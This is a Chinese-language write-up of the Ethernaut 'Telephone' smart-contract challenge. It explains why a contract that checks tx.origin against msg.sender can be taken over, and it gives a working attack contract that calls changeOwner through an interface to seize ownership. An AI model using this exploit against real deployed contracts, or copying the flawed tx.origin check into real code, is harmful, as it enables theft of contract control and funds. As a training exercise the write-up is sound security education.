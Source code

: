 4_Telephone
==

本关要求
--

  1.Claim ownership of the contract below to complete this level.

合约代码
--

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Telephone {

      address public owner;

      constructor() public {
        owner = msg.sender;
      }

      function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
          owner = _owner;
        }
      }
    }
    
合约分析
--

查看<code>changeOwner</code>方法，当调用该方法时<code>tx.origin</code>的值不等于<code>msg.sender</code>，就能成功修改owner  

<code>tx.origin</code>是Solidity的一个全局变量，它遍历整个调用栈并返回最初发送调用（或事务）的帐户的地址，他与<code>msg.sender</code>的区别为： 

<code>tx.origin</code>等于调用合约或交易的账户地址  

<code>msg.sender</code>等于当前调用合约或交易的账户地址或合约地址  

![图片](https://user-images.githubusercontent.com/35074461/196837744-4690a9ac-a821-40d6-aeff-a49f5499bf02.png)  

直接在本关合约中使用<code>changeOwner</code>方法修改owner值时，code>tx.origin</code>的值等于<code>msg.sender</code>，所以无法修改成功。  

而在其他合约中调用本关合约的<code>changeOwner</code>方法时，<code>tx.origin</code>的值等于钱包地址，<code>msg.sender</code>的地址等于攻击合约的地址，可以修改成功。

攻击
--

编写攻击合约，通过接口调用的方式调用本关合约中的changeOwner方法。  

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    interface TelephoneInterface {
        function changeOwner(address _owner) external;
    }

    contract TelephoneAttack{

        TelephoneInterface t_interface;

        constructor(address _addr) public {
            t_interface = TelephoneInterface(_addr);
        }

        function attack(address _attackaddr) public {
            t_interface.changeOwner(_attackaddr);
        }
    }
编译并部署攻击合约，部署地址填写本关合约地址  

查看当前owner和player的值  

![图片](https://user-images.githubusercontent.com/35074461/196650031-757958ef-be04-45c8-a326-5c04eaae0913.png)

使用攻击合约中的attack方法修改owner,尝试将owner值修改为player地址，也就是当前Metamask的钱包地址  

![图片](https://user-images.githubusercontent.com/35074461/196651259-27a1270d-6b24-40b4-b264-aa27d60524fb.png)

攻击成功后查看owner，成功修改为当前钱包地址    
![图片](https://user-images.githubusercontent.com/35074461/196834235-7c5ec2df-5fe4-4637-af77-f54f92bbbca5.png)

